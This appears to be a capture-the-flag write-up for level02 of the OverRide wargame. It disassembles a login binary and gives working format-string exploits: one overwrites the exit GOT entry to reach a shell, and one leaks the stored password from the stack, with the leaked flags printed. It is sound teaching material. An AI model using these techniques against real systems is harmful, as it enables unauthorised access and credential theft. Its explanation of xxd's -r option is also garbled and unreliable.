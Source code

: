 
```
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username:
```
```
<+245>:	lea    -0xa0(%rbp),%rax ==> result of reading "/home/users/level03/.pass" = the Flag
<+252>:	mov    $0x400bf5,%esi   ==> "\n"
<+257>:	mov    %rax,%rdi
<+260>:	callq  0x4006d0 <strcspn@plt>
```
```
strcspn() calculates the length of the number of characters before the 1st occurrence of character present in both the string
Parameters:
str1 : The Target string in which search has to be made.
str2 : Argument string containing characters to match in target string.
```
strcspn("PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv", "\n"). // the flag from level01

In this case, there is no occurrence of the newline character \n in the first string, so the function will return the length of the entire string, which is 40.
```
 <+260>:	callq  0x4006d0 <strcspn@plt>
 <+265>:	movb   $0x0,-0xa0(%rbp,%rax,1)
 <+273>:	cmpl   $0x29,-0xc(%rbp)       ===> ret fread() = -0xc(%rbp)
INTEL 
 <+265>:	mov    BYTE PTR [rbp+rax*1-0xa0],0x0
 <+273>:	cmp    DWORD PTR [rbp-0xc],0x29
```
```
rbp+rax*1-0xa0 = 0 ==> rbp-0xa0 + rax ==> *(rbp-0xa0 + rax) = 0 ==> buffer + rax ==> buffer[rax] = 0 
then compares the res of fread() to 41
```
```
if not equal; then 
  0x400bf8:	 "ERROR: failed to read password file\n"
  exit(1)
else jmp to <+361>

fclose(*File) // -0x8(%rbp)
```
```
the program really begins at <+373>
0x400c20:	 "===== [ Secure Access System v1.0 ] ====="
```
```
 <+431>:	mov    0x20087e(%rip),%rax        # 0x601248 <stdin@@GLIBC_2.2.5>
 <+438>:	mov    %rax,%rdx
 <+441>:	lea    -0x70(%rbp),%rax
 <+445>:	mov    $0x64,%esi
 <+450>:	mov    %rax,%rdi
 <+453>:	callq  0x4006f0 <fgets@plt>
```
```
<+453>: fgets Username from stdin and stores it at -0x70(%rbp)
<+523>:	fgets Username from stdin and stores it at -0x110(%rbp)

<+566>:	lea    -0x110(%rbp),%rcx ==> the PWD
<+573>:	lea    -0xa0(%rbp),%rax  ==> The Flag

<+591>:	callq  0x400670 <strncmp@plt>

strncmp(Flag, PWD, 0x29/41);

if jne    <main+642>
   printf(-0x70(%rbp) ) // username
   "username" does not have access!
   exit
else
  printf("Greetings, %s!\n", -0x70(%rbp)) // username
  system (/bin/sh)
```

Format String to overide the GOT

```
--[ Username: %p %p %p %p %p %p %p %p
--[ Password: AAAA
*****************************************
0x7fffffffe4c0 (nil) 0x41 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6b8 0x1f7ff9a08 0x41414141
```

`(python -c 'print " %p " * 8 + "\n" + "AAAA"') | ./level02`

```
level02@OverRide:~$ (python -c 'print "%8$p" + "\n" + "AAAA"') | ./level02
0x41414141 does not have access!
```
```
x/s 0x601228
0x601228 <exit@got.plt>


----> 0x0000000000400a85 <+625>:	mov    edi,0x400d32 
      0x0000000000400a8a <+630>:	call   0x4006b0 <system@plt>

p 0x0000000000400a85 = 4196997
```

```
level02@OverRide:~$ (python -c 'print "%4196997p%8$n" + "\n" + "\x60\x12\x28"[::-1]' ; cat) | ./level02 > /dev/null
pwd 1>&2
/home/users/level02
cat /home/users/level03/.pass
cat /home/users/level03/.pass 1>&2
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

**SECOND METHOD




```
(python -c 'print " %p " * 100 + "\n" + "AAAA"') | ./level02 | xargs -n 1 echo

...
0x756e505234376848
0x45414a3561733951
0x377a7143574e6758
0x354a35686e475873
...

The length of the flag string is 40 so we need 5 * 8 (16/2 hex len)

the value at the 26th position on the stack  
(python -c 'print "%26$p" + "\n" + "AAAA"') | ./level02
0x48336750664b394d

then lets reconstruct our flag

echo "0x756e505234376848" | xxd -r -p | rev
Hh74RPnu


0x756e505234376848 ==> Hh74RPnu
0x45414a3561733951 ==> Q9sa5JAE
0x377a7143574e6758 ==> XgNWCqz7
0x354a35686e475873 ==> sXGnh5J5
0x48336750664b394d ==> M9KfPg3H

Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H

--[ Username: user
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, user!
$ pwd
/home/users/level02
```

simplified script

```
level02@OverRide:~$ for ((i=1; i<=26; i++)); do (python -c "print '%$i\$p'" && echo) | ./level02 | grep 0x ; done

0x7fffffffe4c0 does not have access!
0x2a2a2a2a2a2a2a2a does not have access!
0x2a2a2a2a2a2a2a2a does not have access!
0x7fffffffe6b8 does not have access!
0x1f7ff9a08 does not have access!
0x100000000 does not have access!
0x756e505234376848 does not have access!
0x45414a3561733951 does not have access!
0x377a7143574e6758 does not have access!
0x354a35686e475873 does not have access!
0x48336750664b394d does not have access!
```


********notes

echo "$i - %$i\$p": This command uses the echo command to print a string that includes the current value of i and a format specifier (%$i\$p) that specifies the position of the argument to be printed by the printf function. The $i syntax refers to the current value of the loop variable i, and the backslash before the $ character is used to escape it so that it is interpreted as a literal character.

echo "0x756e505234376848" | xxd -r -p
This will pipe the string "0x756e505234376848" to the xxd command, which will convert it from hex to binary format. The -r option tells xxd to reverse the conversion process (from binary back to hex), and the -p option tells xxd to read the input as plain hexadecimal digits (without any whitespace or other formatting). The resulting binary data is then piped to the echo command, which will print it to the console as ASCII text.





